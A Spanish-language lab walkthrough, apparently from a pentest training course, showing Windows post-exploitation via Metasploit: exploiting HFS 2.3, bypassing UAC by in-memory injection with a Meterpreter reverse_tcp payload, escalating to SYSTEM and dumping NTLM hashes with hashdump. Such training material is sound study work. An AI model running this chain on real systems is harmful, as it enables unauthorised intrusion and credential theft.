# Windows Post-Exploitation

### UAC Bypass: Memory Injection (Metasploit)

**Objetive:** Gain the highest privilege on the compromised machine and get administrator user NTLM hash.



En el puerto 80 vemos un HFS 2.3 (HttpFileServer)



Buscaremos exploits en metasploit
```bash
search HFS 2.3
```

Usaremos *windows/http/rejetto_hfs_exec*

Ajustamos las opciones



VICTIM\admin

Con *getsystem* no obtenemos la escalada



```powershell
whoami /priv
```



Nada interesante

```powershell
net users
```



Nos muestra admin, Administrator y Guest

Vamos a enumerar los miembros del grupo *administrators*
```powershell
net localgroup administrator
```



Vemos que estamos nosotros *admin* y el usuario *Administrator*

Esto significa que podremos hacer cambios privilegiados y podremos bypasear el UAC



Buscaremos un módulo de postexplotación en metasploit que nos permita esto
```powershell
ctrl+c
```

```bash
background
search windows bypassuac
```



Vemos varios módulos con diferentes técnicas de explotación

El que nos interesará es el de injection, ya que es **En memoria**, nosotros tenemos el meterpreter cargado



Establecemos la sesión 1 donde tenemos cargado el meterpreter
Cambiaremos la arquitectura a x64 para que no de error
```bash
set target Windows\ x64
```

Cambiaremos el payload a x64 también
```bash
windows/x64/meterpreter/reverse_tcp
```

Conseguimos ejecutar el exploit



Seguimos teniendo el mismo usuario pero ahora la FLAG de UAC está a false, por lo que podremos escalar privilegios con *getsystem*



NT AUTHORITY\SYSTEM

Para obtener el hash NTLM que es lo que nos pide el lab haremos
```bash
hashdump
```


